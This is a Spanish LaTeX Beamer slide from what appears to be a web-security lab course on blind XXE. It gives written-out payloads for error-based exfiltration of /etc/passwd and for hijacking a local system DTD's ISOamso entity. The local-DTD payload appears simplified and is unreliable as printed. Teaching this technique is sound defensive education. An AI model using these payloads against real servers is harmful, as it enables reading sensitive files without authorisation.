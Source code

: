 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{XXE Blind con Errores y DTD Local (Labs 104, 107-108)}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Lab 104 --- Error-based XXE (datos en el mensaje de error)
  \item Si el servidor muestra errores del parser $\rightarrow$ los datos del fichero pueden aparecer en el error.
  \item Técnica: provocar un error al abrir un fichero cuyo nombre contiene el contenido exfiltrado.
  \item \cmd{\textless{}!ENTITY \% file SYSTEM 'file:///etc/passwd'\textgreater{}}
  \item \cmd{\textless{}!ENTITY \% eval}
  \item \cmd{'\textless{}!ENTITY \% err SYSTEM \textquotedbl{}file:///noexiste/\%file;\textquotedbl{}\textgreater{}'\textgreater{}}
  \item \cmd{\%eval; \%err;}
  \item $\rightarrow$ El parser intenta abrir 'file:///noexiste/[contenido\_passwd]' $\rightarrow$ falla.
  \item $\rightarrow$ El mensaje de error contiene el nombre del fichero $\rightarrow$ datos exfiltrados.
  \item Labs 107-108 --- DTD local del sistema (OOB bloqueado)
  \item Si no podemos cargar DTD externas ni ver errores $\rightarrow$ usar una DTD del SISTEMA.
  \item Sistemas Linux tienen DTDs conocidas: /usr/share/xml/iso8879/*, /usr/share/yelp/dtd/\dots{}
  \item Sobreescribir una entidad de esa DTD para inyectar nuestro payload:
  \item \cmd{\textless{}!DOCTYPE foo [}
  \item \cmd{\textless{}!ENTITY \% local SYSTEM}
  \item \cmd{'file:///usr/share/yelp/dtd/docbookx.dtd'\textgreater{}}
  \item \cmd{\textless{}!ENTITY \% ISOamso}
  \item \cmd{'\textless{}!ENTITY \% eval}
  \item \cmd{\textquotedbl{}\textless{}!ENTITY \% err SYSTEM \&apos;file:///etc/passwd\&apos;\textgreater{}\textquotedbl{}\textgreater{}}
  \item \cmd{\%eval; \%err;'\textgreater{}}
  \item \cmd{\%local;}
  \item \cmd{]\textgreater{}}
  \item $\rightarrow$ ISOamso es una entidad redefinible de esa DTD. Se sobrescribe con el payload.
  \item Requiere conocer qué DTDs del sistema están instaladas en el objetivo.
  \end{itemize}
\end{frame}
\end{document}
